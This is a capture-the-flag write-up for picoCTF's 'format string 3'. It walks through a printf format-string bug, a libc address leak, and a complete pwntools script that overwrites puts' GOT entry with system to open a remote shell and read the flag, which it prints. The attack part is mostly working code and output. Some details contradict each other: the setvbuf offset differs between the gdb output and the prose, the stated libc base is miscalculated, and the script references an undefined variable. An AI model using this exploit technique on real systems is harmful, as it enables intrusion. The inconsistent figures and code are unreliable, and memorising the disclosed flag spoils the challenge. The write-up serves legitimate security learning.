 # format string 3

## Solving

```
This program doesn't contain a win function. How can you win?
Download the binary here.
Download the source here.
Download libc here, download the interpreter here. Run the binary with these two files present in the same directory.
Connect with the challenge instance here:
nc rhea.picoctf.net 49363
```

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```

Lookin at format-string-3.c source file we see no evidence of a flag file but references to /bin/sh, so we can assume our task is to spawn a shell.

The use of printf(buf), will be our format vulnerability.

Now essentially near the end after the ``printf`` vuln we see the puts statement for the function to spawn a shell. If we can change this ``puts`` to a syscall we can spawn a shell. 

Now like the last challenge let's first find the offset where the user input is placed on.

We can do this with our payload of ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

We can send this using python3

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("1"*8 + ",%llx" * 50)') | ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fe3d04c93f0
  11111111,7fe3d0627963,fbad208b,7ffe85115400,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c
/bin/sh
```
Now over here we can see our offset is 38

It also seems to have given the address of setvbuf in libc. 

Now back to the files they have given us they have provided us with a libc file. which is a core system library containing providing all the functions that programmes need for basic operations. When a program is compiled, many of its functions are not included in the binary itself. Instead, the program relies on external libraries like ``libc`

Now essentially over here we must find the address of ``system()`` we can only do this when we have the base pointer of libc and calculating a potential offset from the actual address. 

Hence because they have leaked to us the address of setvbuf in libc which is ``0x7fe3d04c93f0`` we can find the base pointer for this by doing ``(leaked setvbuf address) - (offset address of setvbuf)``

``libc base address=Actual address − Offset address``


Now we can load up the lib into gdb to find the offset address  ``setvbuf`` 

```shell
hadakoi@Laptop:~/ctfsolve$ gdb ./libc.so.6
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./libc.so.6...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Enable debuginfod for this session? (y or [n]) y
Debuginfod has been enabled.
To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
(No debugging symbols found in ./libc.so.6)
(gdb) info address setvbuf
Symbol "setvbuf" is at 0x7a3f0 in a file compiled without debugging.
(gdb)
```

Now that we know its ``0x783f0`` we can subtract this from ``0x7fe3d04c93f0`` This makes the libc base address ``0x7fe3d04c5f00``

However upon rerunning the script we realise that the leaked address changes on each runtime.

Now luckily pwntools has a cool feature where unlike last time I do not have to do all those weird calculations but can rather link the function from the linkc address 

```python                                                                  
from pwn import *

context.arch = 'amd64' # making sure everything is sent in correct instruction set

exe = "./format-string-3"
elf = ELF(exe)
libc = ELF("./libc.so.6")

p = remote("rhea.picoctf.net", 57804)

start = 38 # start of the offset on the programme stack

p.recvuntil(b'setvbuf in libc: ')
leakaddress = int(p.recvline().strip(), 16)
print("setvbuf @ %#x" % leak)

libc.address = leakaddress - 0x000000000007a3f0
print("libc @ %#x" % libc.address) # Calculating the true address

payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system}) #

p.sendline(payload)
p.interactive()
```

Now the main part here is the ``payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system})`` 

the ``fmtstr_payload()`` is uses to generate a payload we also have the starting spot of where the input is entered into which was our offset on the stack of 38

``elf.sym.got.puts`` refers to the GOT entry for puts()

---

**NOTE:** GOT is a table used by programmes that use shared libraries (like libc) to store the addresses of functions the program will call
for example in this case when a programm needs to call ``puts()`` instead of directly calling it the programme calls the ``GOT entry for puts which is a placeholder this points to the put()`` address present in libc.

As such we can exploit this changing this address that it knows for puts to the address for ``system()``.

---

libc.sym.system gives you the address of the system() function in the libc binary you've loaded. This is possbile as we calculated for the base address of the libc library

This address for system is what we use to overwrite the GOT entry for puts, so when the program tries to call puts, it will actually call system() instead. This is often used to spawn a shell (i.e., execute a command) when you pass it a command like /bin/sh.


Now running this script we end up managing to open up a shell allowing us to look around the directory to which i then see a file ``flag.txt`` from here I just cat the flag.txt retruning us the flag to which i can promptely exit the session.

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py
[*] '/home/hadakoi/ctfsolve/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/home/hadakoi/ctfsolve/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to rhea.picoctf.net on port 57804: Done
setvbuf @ 74c6d5a3a3f0
libc @ 74c6d59c0000
[*] Switching to interactive mode
                                                                                               c                   \x8b                                           \xd0                                                   \x00                                 \x00aaaaba\x18ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_f574d38f}$
```

## Flag

> picoCTF{G07_G07?_f574d38f}
